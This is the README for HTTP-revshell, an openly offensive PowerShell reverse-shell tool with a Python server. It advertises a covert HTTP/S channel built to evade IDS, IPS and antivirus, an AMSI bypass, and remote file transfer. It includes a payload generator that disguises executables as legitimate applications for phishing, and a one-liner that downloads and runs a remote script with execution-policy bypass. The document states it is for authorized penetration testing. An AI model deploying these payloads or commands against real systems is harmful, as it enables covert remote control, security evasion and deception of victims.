 # Powershell HTTP/S Reverse Shell

[![Category-tool]]() [![Powershell]]() [![Python]]() [![License]]()

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol. It use a covert channel to gain control over the victim machine through web requests and thus evade solutions such as IDS, IPS and AV.

<p align="center"><img width=400 alt="HTTP-revshell" src="https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/images/logo.png"></p>

## Help server.py (unisession server)
Server usage:
```
usage: server.py [-h] [--ssl] [--autocomplete] host port

positional arguments:
  host            Listen Host
  port            Listen Port

optional arguments:
  -h, --help      show this help message and exit
  --ssl           Send traffic over ssl
  --autocomplete  Autocomplete powershell functions
```

## Help Invoke-WebRev.ps1 (client)
Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

## Installation
```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

## Quick start server-multisession.py (multisession server)

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

**IMPORTANT 2**: It's a BETA version, it's not prepared to use in a real Red Team environment.

## Features
 - SSL
 - Proxy Aware
 - Upload files
 - Download files
 - Load powershell scripts through the server
 - Error Control
 - AMSI bypass
 - Multiple sessions [only server-multisession.py]
 - Autocomplete PowerShell functions (optional) [only server.py]
    
## Extra functions usage
### Upload
This function allow you to upload any file to the victim machine.

Usage:
```
upload /src/path/file C:\dest\path\file
```
### Download
This function allow you to download a file to the attacker machine.

Usage:
```
download C:\src\path\file /dst/path/file
```
 ### Loadps1
This function allows you to load from powershell scripts without having to write to the victim's disk, reading the file through legitimate HTTP traffic.

Usage:
```
loadps1 /path/to/the/local/server/PowershellScript.ps1
```

## Help Revshell-Generator.ps1 (Automatic Payload Generator)
This script allows you to create an executable file with the payload necessary to use **HTTP-revshell**, you just need to follow the instructions on the screen to generate it. There are 6 predefined templates and a customizable one, with the data that you like.

The payloads generated by the tool, incorporate the legitimate icon of the application, as well as the product and copyright information of the original application. In addition, each of them opens the original application before establishing the connection with the server, pretending to be a legitimate application. This can be used for phishing or Red Team exercises.

Payload Generator usage:
```
powershell -ep bypass "iwr -useb https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/Revshell-Generator.ps1 | iex"
```
![Revshell-Generator](/images/generator.gif)

**IMPORTANT**: All fields in predefined templates are auto-complete by pressing the enter key.

## Credits
 - [JoelGMSec] for his awesome Revshell-Generator.ps1. Twitter: [@JoelGMSec]
 - [dev-2null] for report the first bug. Twitter: [@dev2null]

## Disclaimer & License
This script is licensed under LGPLv3+. Direct link to [License](https://raw.githubusercontent.com/3v4Si0N/HTTP-revshell/master/LICENSE).

HTTP-revshell should be used for authorized penetration testing and/or nonprofit educational purposes only. 
Any misuse of this software will not be the responsibility of the author or of any other collaborator. 
Use it at your own servers and/or with the server owner's permission.

<!-- Twitter URLs -->
[@JoelGMSec]: https://twitter.com/JoelGMSec
[@dev2null]: https://twitter.com/dev2nulI

<!-- Github URLs -->
[JoelGMSec]: https://github.com/JoelGMSec
[dev-2null]: https://github.com/dev-2null

<!-- Badge URLs -->
[License]: https://img.shields.io/badge/License-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273134&colorB=006bbd "LGPL v3+"
[Category-tool]: https://img.shields.io/badge/Category-Post%20Exploitation-E5A505?style=flat-square&colorA=273134
[Powershell]: https://img.shields.io/badge/Powershell-3.0%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000
[Python]: https://img.shields.io/badge/Python-3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff6f00
